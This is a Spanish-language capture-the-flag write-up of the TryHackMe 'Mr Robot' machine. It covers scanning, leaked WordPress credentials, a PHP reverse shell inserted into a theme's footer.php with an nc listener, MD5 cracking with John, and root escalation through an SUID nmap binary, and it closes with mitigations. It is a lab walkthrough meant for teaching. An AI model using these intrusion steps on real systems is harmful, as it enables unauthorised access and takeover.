








# Mr Robot CTF

> **Plataforma:** TryHackMe  
> **Dificultad:** Media  
> **Sistema operativo:** Linux

## Resumen

Máquina Linux de TryHackMe donde se compromete un **WordPress mediante credenciales expuestas**. Posteriormente se crackea la contraseña del usuario `robot` y se escala a `root` abusando de un binario **Nmap con SUID**.

## Cadena de ataque

```text
WordPress → Credenciales expuestas → RCE (daemon) → Crack MD5 → robot → Nmap SUID → root
```

---
# Reconocimiento

Realizamos un reconocimiento inicial de los puertos y servicios TCP expuestos:

```bash
nmap -p- --open -sS --min-rate 2000 -n -Pn 10.128.174.18 -oG allPorts
nmap -p22,80,443 -sCV -Pn 10.128.174.18 -oN targeted
````

Tras el escaneo encontramos los servicios **SSH**, **HTTP** y **HTTPS**, ejecutándose en los puertos `22`, `80` y `443` respectivamente.

|Puerto|Servicio|Versión|Hallazgo|
|---|---|---|---|
|22|SSH|OpenSSH 8.2p1|Servicio SSH expuesto|
|80|HTTP|Apache httpd|Página web con temática de Mr Robot|
|443|HTTPS|Apache httpd|Página web con temática de Mr Robot|





---

# Enumeración

Realizamos fuzzing de directorios sobre el servicio HTTP:

```bash
gobuster dir -u http://10.128.174.18/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```

## Enumeración Wordpress

Durante la enumeración encontramos una instalación de **WordPress**.



Realizamos una segunda enumeración incluyendo extensiones interesantes:

```bash
gobuster dir -u http://10.128.174.18/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,env,bak
```

Entre los resultados encontramos `license.txt`, el archivo contiene una cadena codificada en Base64:

```bash
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d; echo
```

Obtenemos:

```
elliot:ER28-0652
```

### Credenciales encontradas

- Usuario: `elliot`
- Contraseña: `ER28-0652`



---
# Reverse Shell - WordPress

Una vez autenticados en el panel de WordPress con las credenciales encontradas, aprovechamos los permisos administrativos para modificar el archivo `footer.php` del tema activo e insertar una reverse shell PHP generada mediante [RevShells](https://www.revshells.com/).

En Kali iniciamos un listener:

```bash
nc -lvnp 448
```

Tras cargar una página que ejecuta el `footer.php`, recibimos la conexión.

```bash
curl -i http://10.128.174.18/wp-content/footer.php
```

**Resultado:** acceso obtenido como `daemon`.




### Tratamiento de TTY

Para trabajar de forma más cómoda estabilizamos la shell:

```
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=/bin/bash
```

---

## Movimiento lateral - usuario robot

Durante la enumeración del sistema encontramos el usuario `robot`. También encontramos el archivo `password.raw-md5` y revisamos su contenido:

```bash
cat /home/robot/password.raw-md5
```

El archivo contiene un hash MD5 asociado al usuario `robot`. Guardamos el hash:

```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" > hash
```

Identificamos el formato como **Raw-MD5** y realizamos un ataque de diccionario con John The Ripper:

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Una vez recuperada la contraseña, cambiamos al usuario y buscamos las keys del CTF::

```bash
su robot
find / -type f -name "key-*.txt" 2>/dev/null
```

**Resultado:** acceso obtenido como `robot`

**Vector:** credencial almacenada mediante un hash MD5 débil.



---
# Escalada de privilegios a root

Realizamos una enumeración de binarios con el bit **SUID**:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Entre los resultados encontramos:

```bash
/usr/local/bin/nmap
```

La versión instalada de Nmap permite utilizar el modo interactivo.

Ejecutamos:

```bash
/usr/local/bin/nmap --interactive
```

Dentro de Nmap:

```bash
/bin/sh
```

Al ejecutarse Nmap con SUID, obtenemos una shell con privilegios elevados. Finalmente accedemos a la última key:

```bash
cat /root/key-3-of-3.txt
```

**Resultado:** acceso obtenido como `root`

**Vector:** binario Nmap con permisos SUID inseguros.



---
# Cadena final

```text
WordPress → Credenciales expuestas → RCE (daemon) → Crack MD5 → robot → Nmap SUID → root
```

---

# Aprendizajes

- Revisar archivos expuestos como `license.txt`, backups y configuraciones.
- Base64 es codificación, no cifrado.
- Identificar correctamente el formato de un hash antes de usar John.
- Enumerar siempre binarios SUID durante la escalada.
- Binarios legítimos como Nmap pueden convertirse en vectores de privesc si tienen permisos incorrectos.

---

# Mitigaciones

- No publicar credenciales en archivos accesibles desde la web.
- Utilizar contraseñas robustas y algoritmos de hash modernos.
- Restringir la edición de archivos PHP desde WordPress.
- Mantener WordPress y sus componentes actualizados.
- Eliminar permisos SUID innecesarios.
- Aplicar el principio de mínimo privilegio.
